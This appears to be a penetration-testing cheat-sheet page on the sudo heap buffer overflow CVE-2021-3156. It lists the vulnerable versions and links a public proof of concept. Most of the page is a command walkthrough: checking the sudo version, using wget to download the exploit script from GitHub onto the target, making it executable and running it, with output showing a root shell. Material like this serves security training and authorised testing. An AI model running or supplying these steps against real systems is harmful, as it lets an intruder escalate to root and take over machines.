 # Exploits

## Sudo heap-based buffer overflow (< 1.9.5p2)

> [CVE-2021-3156](https://nvd.nist.gov/vuln/detail/cve-2021-3156)

Affected versions:

```
sudo versions < 1.9.5p2
```

Available [PoC](https://github.com/worawit/CVE-2021-3156/tree/main).

{% code overflow="wrap" %}
```bash
# Check the target's sudo version
$ sudo --version
Sudo version 1.8.31

# Download the PoC to the target
$ wget https://raw.githubusercontent.com/worawit/CVE-2021-3156/refs/heads/main/exploit_nss.py

# Assign execute permissions
$ chmod +x exploit_nss.py

# Run the exploit
$ ./exploit_nss.py
...
# id
uid=0(root) gid=0(root) groups=0(root),998(apache),1004(anita)
```
{% endcode %}

